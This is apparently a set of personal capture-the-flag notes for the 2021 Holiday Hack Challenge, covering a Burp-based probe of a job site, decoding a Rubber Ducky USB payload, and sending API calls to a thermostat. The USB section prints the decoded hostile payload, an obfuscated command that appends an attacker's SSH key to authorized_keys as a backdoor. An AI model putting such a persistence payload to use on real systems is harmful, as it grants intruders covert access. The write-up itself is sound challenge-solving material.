 # HolidayHackChallenge2021
**<p align="center">**
![image](https://user-images.githubusercontent.com/33500545/148440994-34860215-6845-493c-b5b1-a9d237360875.png)
</p>
<p align="center">
Notes from 2021 HolidayHackChallenge
</p>




# Now Hiring
You are directed to apply for a job over at https://apply.jackfrosttower.com/
So first thing is to check the site out, when you click on Opportunities you will notice that the images do not load.  There are 4 images (1.jpg, 2.jpg,3.jpg,4.jpg).
So I decided to run this through burp as the images aren’t valid it seems.

I enabled my proxy and went to apply.jackfrosttower.com/images and that resulted in a ngix error, I then sent that request to repeater, and in repeater i tried 1.jpg, with no result.  Then i tried 2.jpg and found the super secret key.
No WIN
![image](https://user-images.githubusercontent.com/33500545/148627937-e53e60be-4605-48fd-bc20-01a8a781c8cc.png)
WIN
![image](https://user-images.githubusercontent.com/33500545/148627923-aa7de3c7-2f85-4439-83f7-bc1c762baa12.png)

# Strange USB Device

Ducky-decode.pl inject.bat
Echo ‘==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ’ | rev

Echo 
'ZWNobyAnc3NoLXJzYSBVbU41UkhKWldIZHJTSFJvZG1WdGFWcDBkMWwzVTJKcVoyZG9SRlJIVEdSdFQwWnpTVVpOZHlCVWFHbHpJR2x6SUc1dmRDQnlaV0ZzYkhrZ1lXNGdVMU5JSUd0bGVTd2dkMlVuY21VZ2JtOTBJSFJvWVhRZ2JXVmhiaTRnZEVGS2MwdFNVRlJRVldwSFpHbE1SbkpoZFdkU1QyRlNhV1pTYVhCS2NVWm1VSEFLIGlja3ltY2dvb3BAdHJvbGxmdW4uamFja2Zyb3N0dG93ZXIuY29tJyA+PiB+Ly5zc2gvYXV0aG9yaXplZF9rZXlzCg==' | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys

# Frost Ice Melt Castle
```
Iwlist wlan0 scanning
Iwconfig wlan0 essid FROST-Nidus-Setup
“* New network connection to Nidus Thermostat detected! Visit http://nidus-setup:8080/ to complete setup”
Curl http://ndius-setup:8080/
```
Need to adjust the api: 
```http://nidus-setup:8080/apidoc
elf@85f15cd56977
```
Run this twice: 
```
curl -XPOST -H 'Content-Type: application/json' \
  --data-binary '{"temperature": -0}' \
  http://nidus-setup:8080/api/cooler
```
![image](https://user-images.githubusercontent.com/33500545/148628021-70fd4605-b318-4324-b059-d267c73c91d9.png)
